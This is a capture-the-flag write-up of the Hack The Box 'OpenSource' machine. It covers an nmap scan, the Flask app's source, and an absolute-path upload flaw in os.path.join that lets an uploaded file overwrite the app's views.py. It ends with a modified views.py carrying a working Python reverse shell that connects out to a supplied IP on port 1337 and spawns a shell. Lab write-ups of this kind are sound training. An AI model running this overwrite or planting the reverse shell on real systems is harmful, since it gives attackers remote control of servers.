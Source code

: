 # This is the Writeup of OpenSource machine on Hack The Box

So the first thing that we have to do is of course nmap scan. The output is shown below:
```# Nmap 7.93 scan initiated Fri May 26 15:34:39 2023 as: nmap -sV -Pn -sC -v -p- -oN scan 10.10.11.164
Nmap scan report for 10.10.11.164
Host is up (0.025s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1e59057ca958c923900f7523823d055f (RSA)
|   256 48a853e7e008aa1d968652bb8856a0b7 (ECDSA)
|_  256 021f979e3c8e7a1c7caf9d5a254bb8c8 (ED25519)
80/tcp   open     http    Werkzeug/2.1.2 Python/3.10.3
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Fri, 26 May 2023 19:35:06 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 5316
|     Connection: close
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>upcloud - Upload files for Free!</title>
|     <script src="/static/vendor/jquery/jquery-3.4.1.min.js"></script>
|     <script src="/static/vendor/popper/popper.min.js"></script>
|     <script src="/static/vendor/bootstrap/js/bootstrap.min.js"></script>
|     <script src="/static/js/ie10-viewport-bug-workaround.js"></script>
|     <link rel="stylesheet" href="/static/vendor/bootstrap/css/bootstrap.css"/>
|     <link rel="stylesheet" href=" /static/vendor/bootstrap/css/bootstrap-grid.css"/>
|     <link rel="stylesheet" href=" /static/vendor/bootstrap/css/bootstrap-reboot.css"/>
|     <link rel=
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Fri, 26 May 2023 19:35:06 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, HEAD, GET
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
|_http-title: upcloud - Upload files for Free!
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: Werkzeug/2.1.2 Python/3.10.3
3000/tcp filtered ppp
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
[...]
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
As we can see, there are 3 ports open: 22, 80 and 3000. 22 and 80 are standard ports for SSH and HTTP, but on port 3000 there is a service running that we don't really know yet. So the natural thing to do now would be to scan the website for hidden directories or subdomains. We know there are no subdomains as the IP address of the machine (10.10.11.164) does not resolve to any domain name, thuss it doesn't have any subdomains. After using gobuster to scan site for hidden directories, it doesn't show anything useful. After playing with the site for a while we are able to download the source code and find a place to upload our files. The source code of [views.py](https://github.com/mateusz7988/CTF-Writeups/blob/main/HackTheBox/OpenSource/views.py) looks like this:
```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/')
def index():
    return render_template('index.html')


@app.route('/download')
def download():
    return send_file(os.path.join(os.getcwd(), "app", "static", "source.zip"))


@app.route('/upcloud', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
```
And the source code of [utils.py](https://github.com/mateusz7988/CTF-Writeups/blob/main/HackTheBox/OpenSource/utils.py) looks like this:
```python
import time


def current_milli_time():
    return round(time.time() * 1000)


"""
Pass filename and return a secure version, which can then safely be stored on a regular file system.
"""


def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")


"""
TODO: get unique filename
"""


def get_unique_upload_name(unsafe_filename):
    spl = unsafe_filename.rsplit("\\.", 1)
    file_name = spl[0]
    file_extension = spl[1]
    return recursive_replace(file_name, "../", "") + "_" + str(current_milli_time()) + "." + file_extension


"""
Recursively replace a pattern in a string
"""


def recursive_replace(search, replace_me, with_me):
    if replace_me not in search:
        return search
    return recursive_replace(search.replace(replace_me, with_me), replace_me, with_me)
```
In [utils.py](https://github.com/mateusz7988/CTF-Writeups/blob/main/HackTheBox/OpenSource/utils.py), we can see that function for getting unique filename is not implemented yet. This means, that if we upload something called Test.txt, it will still be called Test.txt. Upon further inspecting of [views.py](https://github.com/mateusz7988/CTF-Writeups/blob/main/HackTheBox/OpenSource/views.py) file, we can see that the function used for crafting the path, where uploaded file should be stored, is using the os.path.join(). It turns out, that os.path.join() has a **FATAL** vulnerability that will come in handy this time!
It is using our filename for crafting the path to the file, but if the filename starts with "/", it makes the filepath start from the root filesystem:
```python 
>>> import os
>>> os.path.join("test", "file.txt")
'test/file.txt'
>>> os.path.join("test","test2","/file.txt")
'/file.txt'
```
It basically means, that if we name our file "/etc/passwd", it wouldn't end up in the "/app/public/uploads/etc/passwd" directory, but would end up overwriting the original "/etc/passwd" file. **Bingo!** 

In source code that we just downloaded we can see that the directory with [views.py](https://github.com/mateusz7988/CTF-Writeups/blob/main/HackTheBox/OpenSource/views.py) is in /app/app/ directory. If we modify [views.py](https://github.com/mateusz7988/CTF-Writeups/blob/main/HackTheBox/OpenSource/views.py), and name it "/app/app/views.py" it would overwrite the original [views.py](https://github.com/mateusz7988/CTF-Writeups/blob/main/HackTheBox/OpenSource/views.py) file and we would be able to execute our own python code. I modified the [views.py](https://github.com/mateusz7988/CTF-Writeups/blob/main/HackTheBox/OpenSource/views.py) file so it contains another route at '/revshell/<ip>' that will execute reverse shell after visiting this endpoint with my browser.

```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/')
def index():
    return render_template('index.html')


@app.route('/download')
def download():
    return send_file(os.path.join(os.getcwd(), "app", "static", "source.zip"))


@app.route('/upcloud', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))

@app.route('/revshell/<ip>')
def revshell(ip):
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((f"{ip}",1337));os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1);os.dup2(s.fileno(),2)
    import pty
    pty.spawn("sh")
```
    
 
    

